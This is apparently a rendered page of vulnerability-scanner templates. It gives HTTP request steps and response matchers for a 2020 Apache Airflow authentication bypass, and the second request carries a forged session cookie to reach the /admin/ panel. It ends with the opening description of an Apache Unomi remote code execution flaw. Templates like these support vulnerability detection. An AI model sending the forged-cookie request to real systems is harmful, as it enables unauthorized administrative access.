 - severity - high
- tags - cve,cve2020,apache,airflow,auth-bypass

## Requests

### Step - 1

```
GET /admin/ HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
GET /admin/ HTTP/1.1
Host: {{Hostname}}
Cookie: session=.eJwlzUEOwiAQRuG7zLoLpgMM9DIE6D-xqdEEdGW8u03cvy_vQ8UG5o02q_eJhcqx00YdDaKao6p5ZZe89ZyFUaPExqCF-hxWXs8Tj6tXt_rGnKpxC6vviTNiELBxErerBBZk9Zd7T4z_hOn7A0cWI94.YwJ5bw.LzJjDflCTQE2BfJ7kXcsOi49vvY

```

### Matchers

**Type - word**

- part - body_2
- words
  1. DAG
  2. Recent Tasks
  3. Users
  4. SLA Misses
  5. Task Instances
- condition - and

**Type - dsl**

- dsl
  1. contains(body_1, 'Redirecting...')
  2. status_code_1 == 302
- condition - and

---

# Apache Unomi \<1.5.2 - Remote Code Execution

## Description

- Apache Unomi allows conditions to use OGNL and MVEL scripting which
  offers the possibility to call static Java classes from the JDK
  that could execute code with the permission level of the running Java process.
  This vulnerability affects all versions of Apache Unomi prior to 1.5.2.
